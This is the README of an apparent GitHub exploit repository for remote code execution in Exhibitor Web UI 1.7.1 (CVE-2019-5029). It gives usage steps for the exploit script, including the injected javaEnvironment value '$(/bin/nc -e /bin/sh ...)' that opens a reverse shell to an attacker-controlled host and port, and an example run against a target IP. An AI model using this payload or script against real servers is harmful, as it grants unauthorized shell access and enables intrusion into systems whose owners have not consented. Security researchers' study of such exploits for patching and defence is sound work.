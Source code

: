 # Exihibitor-RCE
Exihibitor Web Ui 1.7.1 RCE, CVE-2019-5029

## Step 1:

$ git clone https://github.com/thehunt1s0n/Exihibitor-RCE/

## Step 2:

$ cd Exihibitor-RCE/

## Step 3 (optional):

You might need to edit json data payload in the script. To do that simply capture the request using burpsuite when comiting the changes in the config tab of exihibitor and copy pasting into the curl command in the script.

<div style="text-align:center;">
  <img src="https://raw.githubusercontent.com/thehunt1s0n/Exihibitor-RCE/main/media/burpsuite_capture.png" alt="gif 1" width="500"/>
</div>

Make sure to change the javaEnvironment with the following:

"javaEnvironment":"$(/bin/nc -e /bin/sh '$ATTACKER_HOST' '$ATTACKER_PORT' &)"


## Step 4:

./exploit.sh <host> <port> <attacker_host> <attacker_port>

Example:

$ ./exploit.sh 192.168.197.98 8080 192.168.45.187 8080

![gif](https://raw.githubusercontent.com/thehunt1s0n/Exihibitor-RCE/main/media/Exihibitor_capture.gif)
